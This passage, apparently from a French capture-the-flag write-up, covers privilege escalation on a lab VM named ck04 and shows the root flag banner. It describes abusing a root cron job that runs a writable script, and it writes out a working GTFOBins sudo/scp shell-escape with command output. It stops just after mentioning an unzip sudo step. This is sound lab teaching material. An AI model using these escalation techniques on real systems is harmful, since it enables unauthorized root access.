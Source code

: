 ```console
/    \  \<   |  | | __ \_/ __ \_  __ \      <  /    \|  |/ ___\|  |  \   __\ /  /_\  \  /   |  |_
\     \___\___  | | \_\ \  ___/|  | \/    |  \|   |  \  / /_/  >   Y  \  |   \  \_/   \/    ^   /
 \______  / ____| |___  /\___  >__|  |____|__ \___|  /__\___  /|___|  /__|    \_____  /\____   | 
        \/\/          \/     \/              \/    \/  /_____/      \/              \/      |__|

flag = 1876056353cb2e6253fd0ce121ef1b3f

This flag is a proof that you got the root shell.
You have to submit your report contaning all steps you take to got root shell.
Send your report at our e-mail address : ctf@infosecwarrior.com & vishalbiswas420@gmail.com
```

## La méthode pspy

Dans la crontab de root, il y a cette entrée :

```
* * * * * cd /home/bla1 && ./run.sh
```

On ne peut pas la lire sans les droits root mais on aurait aperçu la commande en exécutant `pspy`.

Le fichier est sous notre contrôle, on pourrait donc faire exécuter des commandes par `root` en le modifiant et en le rendant exécutable :

```
-rw-rw-r-- 1 bla1 bla2       38 Feb 14  2020 run.sh
```

## La méthode GTFObins

On peut se servir des entrées que l'on a vues dans la crontab avec les comptes cassés. On commence par `shortcut` qui peut lancer `scp` en tant que `bla` :

```console
bla1@ck04:/home/bla2$ su shortcut
Password: 
$ sudo -l
Matching Defaults entries for shortcut on ck04:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shortcut may run the following commands on ck04:
    (root) NOPASSWD: /bin/echo, /usr/bin/id, /usr/bin/whatis
    (bla : bla) /usr/bin/scp, /bin/cat, /bin/cp
$ echo 'sh 0<&2 1>&2' > /var/tmp/yolo
$ chmod +x /var/tmp/yolo
$ sudo -u bla /usr/bin/scp -S /var/tmp/yolo x y:
$ id
uid=1000(bla) gid=1000(bla) groups=1000(bla),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
```

Ensuite on va utiliser l'entrée `sudoers` autorisant `bla` à lancer `unzip` en tant que `root`.
